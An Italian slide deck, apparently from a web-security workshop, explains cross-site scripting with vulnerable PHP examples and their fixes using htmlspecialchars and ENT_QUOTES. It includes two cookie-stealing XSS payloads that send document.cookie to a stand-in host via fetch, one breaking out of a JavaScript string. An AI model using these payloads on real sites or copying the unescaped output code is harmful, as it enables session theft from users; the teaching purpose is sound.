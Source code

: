# (Bonus #1) Attacchi al client
Il server non è l'unica possibile vittima di un attaccante, anche i client che utilizzano un servizio possono avere dati sensibili legati a un sito, magari il cookie di sessione.

---

## Esempio

Se potete creare, ad esempio, dei post, ed il backend fa una cosa del genere, cosa può andare storto?

<!-- fragments-start -->
```php
<html>
    <body>
    <?php
        $post = get_post_from_db();
        echo "<h2>" . $post->title . "</h2>";
        echo "<p>" . $post->body . "</p>";
    ?>
    </body>
</html>
```
```html
<!-- Rubare i cookies, creando un url fittizio e facendoci richieste -->
<script>fetch("http://miourl.it/?cookies=" + document.cookie)</script> 
```
Questo attacco si chiama **XSS**, immaginate se da un post facebook si potesse eseguire del codice javascript!

<!-- fragments-end -->

---

## Proteggersi da XSS


<IFrame src="https://www.w3schools.com/html/html_entities.asp" />


---

## Proteggersi da XSS con PHP

```php
<html>
    <body>
    <?php
        $post = get_post_from_db();
        echo "<h2>" . htmlspecialchars($post->title) . "</h2>";
        echo "<p>" . htmlspecialchars($post->body) . "</p>";
    ?>
    </body>
</html>
```

---

## Siamo sicuri che sia tutto ok?

<!-- fragments-start -->
```php
<html>
    <body>
    <?php
        $post = get_post_from_db();
        echo "<h2>" . htmlspecialchars($post->title) . "</h2>";
        echo "<p>" . htmlspecialchars($post->body) . "</p>";
        echo "<script>document.title='" . htmlspecialchars($post->title) . "'";
    ?>
    </body>
</html>
```
```javascript
'; fetch('http://miourl.it/?cookies=' + document.cookie);'
```
```
ENT_QUOTES 	Will convert both double and single quotes
```
```php
htmlspecialchars($post->title, ENT_QUOTES)
```
<!-- fragments-end -->
